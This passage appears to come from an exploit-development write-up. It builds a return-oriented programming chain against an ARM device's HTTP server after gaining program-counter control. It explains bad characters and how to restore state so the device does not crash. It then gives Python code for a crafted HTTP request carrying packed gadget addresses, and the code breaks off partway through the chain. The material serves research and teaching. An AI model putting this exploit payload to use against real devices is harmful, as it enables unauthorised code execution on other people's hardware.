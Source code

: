 # Free ROP-Chain

At this stage we have **pc** control, but how can we actually run code? Unlike previous projects, you can't just jump to a global, or heap, or stack, as they have explicit memory checks in place and you will crash if you try - looks like its another job for ROP!

Fortunately, we don't have to do anything crazy - our buffer is written 'up' the stack, i.e. the first character of the buffer has a lower address than the last character. As the stack grows downwards, in function prologues the stack pointer is decremented, and in the epilogue (and in ROP gadgets using **ldmia**), the stack pointer is incremented. 

This means that our buffer that has persisted from the previous request will be our ROP-chain as it is already growing in the right direction, and the stack pointer is already pointing within the buffer as a result of popping the registers (to gain execution) - so its just a matter of finding gadgets and building the chain.

The bad characters in this case are *\r*, *\n*, space, null terminator - all of the gadgets are at a fixed address, and as the base is *0xc0008000*, therefore, we don't have to worry about nulls in the gadget addresses as much.

## Fixing up State

Now that we have execution with ROP, ideally we want to prevent crashes as this causes a reboot. We need to fix up the following:
- Decrement the four values at the addresses that actually need decrementing to free the HTTP slots
- Unlock the mutex lock that is supposed to be unlocked at the end of the **http_request_proc** function
- Fix the stack pointer to be the value prior to **http_request_proc**
- Fixup the modified **index.html** callback

Lets take a look at the request I constructed to do this:

```
-python
# Construct the raw HTTP GET request
request = method + b" /index.html HTTP/1.1\r\n"
request += b"Accept-bbbba"
request += p32(0xc02b4edc) # pc

# 0xc02b4edc | ldmia sp!,{r4,r5,r6,r7,r11,pc} <- pop stuff off of the stack so we actually get a decent bit of control
request += p32(0xc05af011) # r4
request += p32(0xc006b11c) # r5 <- change this to insert more gadgets
request += p32(0xc04a28e0) # r6
request += p32(0xc09ae8d4 - 0xdc) # r7 - where we write the stack pointer we destroy
request += p32(0xdeadbeef) # r11
request += p32(0xc0486988) # pc

# | 0xc0486988 | c0486988 | blx r4 | c0486988 | blx r4  | <- go to thumb mode for the next gadget
# | 0xc05af011 | c05af010 | add r0,sp,#0x20 | c05af012 | blx r6 |  <- move sp + 0x20 to r0 so we can save it for later
# | 0xc04a28e0 | c04a28e0 | str r0,[r7,#0xdc] | c04a28e8 | blx r5 | <- save the r0 value into writable location

## need to fix up the callback we've modified, so just add 4 to it
# 0xc006b11c | ldmia sp!,{r4,pc}
request += p32(0xc0218bd8) # r4
request += p32(0xc0341af4) # pc

# | 0xc0341af4 | c0341af4 | cpy r0,r4 | c0341af8  | ldmia sp!,{r4,r11,pc} | 
request += p32(0xc05460e0) # r4
request += p32(0xc09afebc + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4 | blx r4 | 
```